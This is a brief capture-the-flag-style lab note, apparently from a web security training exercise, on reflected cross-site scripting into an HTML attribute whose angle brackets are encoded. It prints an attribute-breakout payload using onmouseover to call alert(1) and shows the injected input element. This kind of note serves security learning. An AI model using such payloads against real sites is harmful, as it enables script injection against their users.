 Lab: Reflected XSS into attribute with angle brackets HTML-encoded
    Xss - search blog functionality
    Task - To call alert function
    
    <input type=text placeholder='Search the blog...' name=search value=""onmouseover="alert(1)">
    "onmouseover="alert(1)